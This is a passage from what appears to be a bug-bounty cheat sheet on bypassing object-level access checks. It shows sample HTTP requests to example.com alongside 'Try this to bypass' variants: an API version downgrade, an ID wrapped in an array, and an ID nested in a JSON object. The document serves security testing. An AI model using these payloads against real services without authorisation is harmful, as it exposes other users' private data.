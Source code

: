 ```
POST /v2/GetData HTTP/1
Host: example.com
...

id=123
```

> Try this to bypass

```
POST /v1/GetData HTTP/1
Host: example.com
...

id=123
```

5.  Wrap the ID with an array.

```
POST /api/get_profile HTTP/1
Host: example.com
...

{"user_id":111}
```

> Try this to bypass

```
POST /api/get_profile HTTP/1
Host: example.com
...

{"id":[111]}
```

6.  Wrap the ID with a JSON object

```
POST /api/get_profile HTTP/1
Host: example.com
...

{"user_id":111}
```

> Try this to bypass

```
POST /api/get_profile HTTP/1
Host: example.com
...

{"user_id":{"user_id":111}}
```

